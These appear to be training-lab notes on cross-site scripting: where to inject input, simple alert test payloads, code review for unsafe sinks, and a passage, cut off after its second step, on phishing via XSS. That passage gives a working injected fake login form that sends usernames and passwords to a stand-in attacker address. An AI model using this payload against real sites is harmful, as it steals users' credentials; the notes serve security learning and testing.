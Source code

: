 - Form fields
- URLs
- Headers (like Cookie, User-Agent)

💡 Example payloads:

`<script>alert(1)</script>`
`<img src=x onerror=alert(1)>`

Resources for payloads:

PayloadAllTheThings - https://github.com/swisskyrepo/PayloadsAllTheThings

**⚠️ Most won’t work everywhere — different inputs need different payload types (quotes, tags, encoding, etc.).**

**3 - Code Review**

Looking at the code (front-end & back-end) tells you:

- How input is handled
- Where it’s output
- If it’s filtered/sanitized

Examples:

- Reflected/Stored: Look at how server returns user input
- DOM XSS: Look for unsafe JavaScript sinks like innerHTML, document.write, etc.

In real-world apps, automated tools often miss XSS, especially if input is encoded or protected.
Manual code review can find what tools can’t.

# Phishing with XSS

**Step 1: Find the XSS**

Go to the vulnerable page:

`http://SERVER_IP/phishing/index.php?url=IMAGE_LINK`

Test an XSS payload like:

`<script>alert(1)</script>`

**If that doesn’t work, inspect the HTML output to tweak your payload until it executes.**

**💻 Step 2: Inject a Fake Login Form**

Once XSS is working, inject a login form that sends input to your machine:

<pre><script>
document.write('<h3>Please login to continue</h3><form action=http://YOUR_IP><input name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" value="Login"></form>');
</script></pre>

**🧹 Step 3: Clean the Page**

Remove the original input field (to make the login form look more real):
